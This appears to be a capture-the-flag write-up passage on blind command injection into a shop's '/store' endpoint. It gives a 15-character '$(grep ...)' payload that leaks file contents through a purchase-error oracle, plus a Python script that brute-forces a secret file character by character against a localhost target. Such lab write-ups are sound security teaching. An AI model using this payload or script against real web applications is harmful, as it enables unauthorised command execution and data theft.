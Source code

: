 <p><img src="unknown.png" alt="unknown"></p>
<p>Wow, I already knew it is vulnerable to <strong>Command Injection</strong> by <code>$()</code>, but 15 characters limitation got me stuck. <strong>Boolean-based</strong> is familiar to <strong>SQL Injection</strong>, but it's mindset can reuse in this concept.</p>
<p>With payload at endpoint <code>/store</code>:</p>
<pre><code>category=$(grep ^a o*)*
</code></pre>
<p>If grep matches file content <code>/^a/</code> of any file name /o*/ (seems like only opt.txt here), command will become:</p>
<pre><code>cat shop/{file_content}*.txt
</code></pre>
<p>The output of it is error. (<code>cat: ... No such file or directory</code>) and responses fail purchase - <code>"Bạn không đủ tiền để mua"</code></p>
<p>Else if grep not matches, command will become:</p>
<pre><code>cat shop/*.txt
</code></pre>
<p>You will get a successful purchase response and lose money equal to entire value of the items (no problem, we're rich!).</p>
<p>Now, we can detect boolean value. Time to write script.</p>

```python
import string, requests

CMD = "$(grep {opt} o*)*"
URL = "http://localhost:8010/store"
cookies = {'session': '.eJyrVsrNz0utVLIyNMAJdJRKi1OL8hJzU5WslBKTEotTUpRqAaX6D10.X3tCxw.X9cG5T7JYjLtFFY_jVvdOY3MKdQ'}

opt_key = "^" # Check from beginning
while True:
    for char in string.ascii_letters[::]:
        tem_opt_key = opt_key+char
        data = {
            "category": CMD.format(opt=tem_opt_key[-3:]),
            "number": "1"
        }
        request = requests.post(URL,data=data,cookies=cookies)
        if ("Bạn không đủ tiền để mua" in request.text): # True
            opt_key += char
            print("[+] Opt_key: " + opt_key[1:] + "...")
            break
    else:
        print('[*] Done! opt_key: ' + opt_key[1:])
        break
```